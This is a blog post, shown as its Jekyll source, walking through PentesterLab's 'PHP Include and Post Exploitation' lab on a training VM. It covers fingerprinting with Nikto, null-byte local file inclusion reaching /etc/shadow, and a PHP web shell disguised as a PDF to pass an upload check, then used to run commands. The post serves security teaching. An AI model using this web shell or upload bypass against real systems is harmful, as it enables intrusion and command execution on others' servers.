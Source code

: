 ```yaml
---
layout: post
title: "PentesterLab Bootcamp - Local File Include"
date: 2017-01-18
description: "Walk-through guide to PentesterLab's bootcamp."
number: "0x0a"
---
```

\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-

This is part 5.2 of my write-up of PentesterLab's [Bootcamp](https://pentesterlab.com/bootcamp) course. If you see any errors or want to suggest I do something different, please [contact me](https://www.maxmunday.com/contact/) to let me know.

Write-up parts [1](https://www.maxmunday.com/blog/2016/05/14/pentesterlab-bootcamp-part-1-linux-and-scripting), [2](https://www.maxmunday.com/blog/2016/05/22/pentesterlab-bootcamp-part-2-http), [3](https://www.maxmunday.com/blog/2016/05/27/pentesterlab-bootcamp-part-3-php-and-dns), [4](https://www.maxmunday.com/blog/2016/08/09/pentesterlab-bootcamp-part-4-ssl-tls), [5.1](https://www.maxmunday.com/blog/2017/01/04/pentesterlab-bootcamp-part-5.1-sql-injection), [5.2](https://www.maxmunday.com/blog/2017/01/18/pentesterlab-bootcamp-part-5.2-local-file-include), [6](https://www.maxmunday.com/blog/2017/07/19/pentesterlab-bootcamp-part-6-more-sql-injection).


\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-

<pre>
                   * * * [ DISCLAIMER ] * * *
/*
 * All information in this write-up is, to the best of my knowledge,  
 * truthful and accurate. However, I am only new to this, and I am   
 * learning as I go, so it is entirely possible something contained  
 * within this write-up is incorrect in some way. Never execute any  
 * command, without knowing for sure what it is you are doing. Look  
 * at the man pages of all commands if you do not understand them.  
 *
 * I take no responsibility if you decide to use this information   
 * to commit illegal acts. If you attempt to use these techniques  
 * against devices or networks you do not either own, or have    
 * permission to attack, you could end up in prison.  
 *
 */  
</pre>
 
\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-

\-\-[ Step 5 ]
 
This is the second part of step 5. This step has us run through two of PentesterLab's exercises: [From SQL Injection to Shell](https://pentesterlab.com/exercises/from_sqli_to_shell) (write-up available [here](https://www.maxmunday.com/blog/2017/01/04/pentesterlab-bootcamp-part-5.1-sql-injection)) and [PHP Include And Post Exploitation](https://pentesterlab.com/exercises/php_include_and_post_exploitation). Download the ISOs and run them in a VM, then access them in a browser using the IP address. [Here](https://www.youtube.com/watch?v=kdYuJDWxOHc) is a video if you need help setting it up.

\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-

\-\-[ PHP Include and Post Exploitation ]

PentesterLab provide an informative [written course](https://pentesterlab.com/exercises/php_include_and_post_exploitation/course) to work through for this exercise. I will not go through everything, I will just do a write-up of the solution as I see it. Run through their course to get the complete learning experience. 

\-\-[ Fingerprinting ]

This intial step is neccesary to gather information about the technologies in use within the web application. This is useful in determining what vulnerabilities may exist or where we can search for them. 

First we will run [Nikto](http://cirt.net/nikto2) on the webserver to check for known vulnerabilities and configuration issues.

![](/pictures/php_include_1.png){:height="288px" width="607px"}

It shows the following issues:

\* the version of Apache and PHP;  
\* a potential PHP include issue;  
\* a false positive (OSVDB-3126);  
\* OSVDB-12184 when PHP is configured with `exposed_php` turned on;  
\* some directories than can indexed;  
\* a login page.

\-\-[ Detection of PHP includes ]

To test for the PHP include issue we will try to generate some file inclusion error messages to get a better understanding of what we're dealing with.

We test with `vulnerable/index.php?page=randomvalue` and the following error is generated

![](/pictures/php_include_2.png){:height="61px" width="507px"}

We can see that the `.php` suffix has been added by the PHP code. 

Next we will try to access `/etc/shadow` using a Null Byte (`%00`) to escape the `.php` suffix

![](/pictures/php_include_3.png){:height="53px" width="588px"}

The `Permission denied` error message shows us that our Null Byte has worked.

We can test for remote file include by attempting to access `http://vulnerable/index.php?page=http://www.google.com/?`. If this is successful the Google page will open within the `vulnerable` page.

![](/pictures/php_include_4.png){:height="288px" width="640px"} 

From this error we can see that this system is not vulnerable to remote file inclusion and so we can assume there is a local file include vulnerablity. 

\-\-[ Exploitation ] 

To exploit a local file include we need to find a way to get the PHP code in a file on the system and get this code to be included. 

There can be many ways to do this, but we will attempt to upload our PHP code through the "Call for Papers" upload functionality on the application.

The application only accepts uploads in PDF format so we will create a PHP file that will appear to be a PDF to bypass the check.

To do this we create a text file with the following code

{% highlight shell %}
$ nano lfi
{% endhighlight %}

{% highlight php %}
%PDF-1.4
<?php
  system($_GET["cmd"]);
?>
{% endhighlight %}

{% highlight shell %}
$ mv lfi lfi.pdf
{% endhighlight %}

The `%PDF-1.4` is the identifier that is checked by the PHP function `mime_content_type` in order to determine its type as a PDF. 

We can test to see if this will be interpreted as a PDF by the content-type checker by using the following code

{% highlight php %}
<?php
echo mime_content_type('lfi.pdf') . "\n";
?>
{% endhighlight %}

And when we run it, we get 

![](/pictures/php_include_5.png){:height="38px" width="313px"}

Success! We have PHP code contained within what appears to be a PDF file.

We can now upload it via the "Call for Papers" section in the application. We need to add a username:password and submit our PDF. Once it is submitted, log back in and access the file location.

We can now access `vulnerable/index.php?page=uploads/lfi.pdf%00&cmd= ` to execute commands

![](/pictures/php_include_6.png){:height="228px" width="589px"}

NB: The course continues through shells, reverse shells and TCP redirection which I will go through in a different post.

\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-

/*\*\* [Part 1 - Linux and Scripting](https://www.maxmunday.com/blog/2016/05/14/pentesterlab-bootcamp-part-1-linux-and-scripting) \*\*\*/

/*\*\* [Part 2 - HTTP](https://www.maxmunday.com/blog/2016/05/22/pentesterlab-bootcamp-part-2-http) \*\*\*/

/*\*\* [Part 3 - PHP and DNS](https://www.maxmunday.com/blog/2016/05/27/pentesterlab-bootcamp-part-3-php-and-dns) \*\*\*/

/*\*\* [Part 4 - SSL/TLS](https://www.maxmunday.com/blog/2016/08/09/pentesterlab-bootcamp-part-4-ssl-tls) \*\*\*/

/*\*\* [Part 5.1 - SQL Injection](https://www.maxmunday.com/blog/2017/01/04/pentesterlab-bootcamp-part-5.1-sql-injection) \*\*\*/

/*\*\* [Part 6 - More SQL Injection](https://www.maxmunday.com/blog/2017/07/19/pentesterlab-bootcamp-part-6-more-sql-injection) \*\*\*/

/*\*\* Part 7- FTP and Traffic Analysis COMING SOON \*\*\*/

\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-
